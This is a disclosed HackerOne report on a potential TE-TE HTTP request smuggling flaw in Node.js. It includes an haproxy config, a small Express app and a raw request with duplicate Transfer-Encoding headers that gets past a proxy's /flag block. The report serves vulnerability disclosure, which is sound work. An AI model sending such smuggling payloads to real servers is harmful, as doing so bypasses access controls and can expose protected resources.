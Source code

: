 # Potential HTTP Request Smuggling in nodejs

## Report Details
- **Report ID**: 1002188
- **URL**: https://hackerone.com/reports/1002188
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-10-08T05:24:20.378Z
- **Disclosed**: 2021-01-07T11:09:06.503Z

## Reporter
- **Username**: piao
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** 
Potential HTTP Request Smuggling exists in nodejs. Attacker can use two same header field make TE-TE HTTP Request Smuggling attack.

**Description:** 
nodejs allow same header field in a http request. for example, we can send two `Transfer-Encoding` header field, even if one of them is false header field. But nodejs only identify the first header field and ignore the after. This lead to a Potential HTTP Request Smuggling.

## Steps To Reproduce:
for example, using haproxy to make TE-TE attack:

haproxy 1.5.3 version haproxy.cfg
haproxy.cfg forbid access `/flag` URI
```
global
 daemon
 maxconn 256

defaults
 mode http
 timeout connect 5000ms
 timeout client 50000ms
 timeout server 50000ms

frontend http-in
 bind *:80
 default_backend servers
 acl url_403 path_beg -i /flag
 http-request deny if url_403

backend servers
 server server1 127.0.0.1:8080 maxconn 32
```

app.js
```
var express = require('express');
var app = express();
var bodyParser = require('body-parser')

app.use(bodyParser())

app.get('/', function (req, res) {
    res.send('Hello World!');
});

app.get('/flag', function (req, res) {
    res.send('flag is 1a2b3c4d5e6f');
});

app.post('/', function (req, res) {
    res.send('Hello World!');
});

app.listen(8080, function () {
    console.log('Example app listening on port 8080!');
});
```

use this http request can bypass haproxy `/flag` restrict
```
POST / HTTP/1.1
Host: 127.0.0.1
Transfer-Encoding: chunked
Transfer-Encoding: chunked-false

1
A
0

GET /flag HTTP/1.1
Host: 127.0.0.1
foo: x


```

## Impact: 
It is possible to smuggle the request and disrupt the user experience.

## Supporting Material/References:
N/A

## Impact

It is possible to smuggle the request and disrupt the user experience.

## Attachments
No attachments
